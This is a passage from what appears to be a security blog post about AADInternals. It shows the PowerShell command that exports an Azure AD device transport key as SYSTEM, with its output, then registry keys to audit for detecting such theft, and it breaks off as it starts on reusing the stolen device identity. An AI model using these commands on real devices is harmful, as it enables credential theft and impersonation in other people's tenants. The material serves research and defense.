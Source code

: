 ## Transport keys

To export the Device Certificate and keys, run the following **AADInternals** functions as administrator:

{{< highlight powershell >}}
# Export the transport key:
Export-AADIntLocalDeviceTransportKey
{{< /highlight>}}

Output:
```
WARNING: Running as LOCAL SYSTEM. You MUST restart PowerShell to restore AADJOIN02\User rights.
Transport key exported to ea77c7d5-7b2f-4567-bf0c-c0a4ceb8b679_tk.pem
```
**Note:** Accessing transport keys requires local system rights, so AADInternals elevates the current session. This 
can not be reversed, so you need to open a new PowerShell session to return "normal" rights. For AAD Registered devices, export the Device Certificate and keys first!

Now you can copy the certificate and transport key to another location to be used later.

## Detecting

The detection of exporting the Device certificate and dkpub/dkpriv & tkpub/tkpriv keys can only happen at the endpoint. 
The next day after publishing this blog post, Roberto Rodriguez (<a href="https://twitter.com/Cyb3rWard0g" target=2_blank">@Cyb3rWard0g</a>) published detection query for Sentinel <a href="https://github.com/Azure/Azure-Sentinel/pull/4199/commits" target="_blank">here</a>.

For short, you should set an access control entry (ACE) on system access control list (SACL) for the following registry keys:

Key | Note
--- | ---
HKLM:\SYSTEM\CurrentControlSet\Control\CloudDomainJoin                  | AAD Joined devices
HKCU:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WorkplaceJoin        | AAD Registered devices
HKLM:\SYSTEM\CurrentControlSet\Control\Cryptography\Ngc\KeyTransportKey | Transport Key

If the user accessing these registry keys is NOT **lsass**, an alarm should be raised.

# Using the stolen device identity

To use the stolen identity, run the following **AADInternals** functions:

{{< highlight powershell >}}
# Save credentials to a variable (must be from the same tenant as the device)
# If MFA is required, omit the credentials for interactive log in.
$cred = Get-Credential
